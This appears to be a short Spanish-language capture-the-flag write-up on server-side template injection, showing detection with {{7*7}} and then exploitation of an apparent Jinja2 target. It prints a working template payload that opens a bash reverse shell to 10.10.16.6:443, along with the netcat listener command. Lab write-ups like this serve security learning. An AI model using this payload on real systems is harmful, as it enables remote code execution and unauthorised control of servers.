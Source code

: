 Es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor.

----
# Enumeracion
Esta vulnerabilidad, normalmente se prueba poniendo {{7\*7}} (esta capado con \) y si responde 49 lo mas probable es que se de esta vulnerabilidad 
![[Goodgames19.png]]

# Explotacion
Como funciono el {{7*\7}}  y nos dio 49, pensamos que es un SSTI      | esta capado con \ 
Probamos este payload, por que como en wapallyzer vemos que esta corriendo python3, asumimos que se esta puyede estar usando jinja2. Nos vamos a mandar una reverse shell [Articulo del que sacamos la linea del comando](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"').read() }} 
```

Mientras nos ponemos en escucha por el puerto 443 en nuestra maquina con el comando
`nc -nlvp 443`


![[Goodgames13.png]]